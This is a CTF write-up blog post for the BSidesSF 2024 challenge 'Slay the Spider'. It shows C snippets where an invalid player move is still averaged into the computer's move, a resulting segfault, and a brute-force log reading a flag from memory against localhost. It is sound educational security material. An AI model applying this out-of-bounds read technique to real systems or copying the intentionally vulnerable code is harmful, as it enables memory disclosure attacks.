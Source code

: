 ```yaml
---
title: 'BSidesSF 2024 Writeups: Slay the Spider (A hard heap-overflow)'
author: ron
layout: post
categories:
- bsidessf-2024
- ctfs
permalink: "/2024/bsidessf-2024-writeups-slay-the-spider-a-hard-heap-overflow-"

---
```


[Slay the Spider](https://github.com/BSidesSF/ctf-2024-release/tree/main/slay-the-spider) is a Minesweeper-like game where the user and computer try to uncover a spider. The challenge name and trappings are based on [Slay the Spire](https://store.steampowered.com/app/646570/Slay_the_Spire/), which is one of my favourite games.

<!--more-->

When you start the game, there are several different enemy AI options:

```
1: The Angry One - Plays at Random
2: Cheater Mc Cheaterly - Knows the best places to play
3: Smartypants - Uses magical super AI for the best chance of winning
4: Captain Fastidious - Is sure that playing left to right is best
```

Those are loosely based on the classes from Slay the Spire.

The third - *Smarypants* - is the key. It chooses the target square based on a silly algorithm:

```c
case AI_SMART:
  // Picks the average of the human move and the last computer move
  move.row = (human_move.row + last_computer_move.row) / 2;
  move.col = (human_move.col + last_computer_move.col) / 2;
```

The problem is that the `human_move.row` and `human_move.col` are set even when the move is invalid:

```c
static move_t do_human_turn(game_t *game) {
  move_t move;

  printf("It's your (human) move!\n");
  printf("\n");
  printf("Row?\n");
  move.row = read_int();

  printf("\n");
  printf("Col?\n");
  move.col = read_int();

  if(move.row > game->gameboard->rows || move.col > game->gameboard->cols || move.row < 0 || move.col < 0) {
    printf("Select a cell that's in-bounds next time!\n");
    printf("\n");
    printf("Result: one missed turn\n");
  }

  // [...]

  return move;
}

// [...]

move_t human_move = do_human_turn(game);
// [...]
```

As a result, you can choose an illegal space:

```
It's your (human) move!

Row?
100000

Col?
100000
Select a cell that's in-bounds next time!

Result: one missed turn
```

But the computer will still use that:

```
It's the opponent (Smartypants) move!
COMPUTER chooses [50001, 50001] and... fish: Job 1, './slay-the-spider' terminated by signal SIGSEGV (Address boundary error)
```

You can use that to read memory "before" the gameboard. So far I've just bruteforced the offset - I might need to add a leak which includes the flag. I'm hoping it'll be possible to reliably find the flag in memory, but I can do it against localhost pretty quickly:

```
Trying to read flag from offset -5184...
Connecting to localhost:4444...
String so far: C / ["43"]
String so far: CT / ["4354"]
String so far: CTF / ["435446"]
String so far: CTF{ / ["4354467b"]
String so far: CTF{t / ["4354467b74"]
...
```
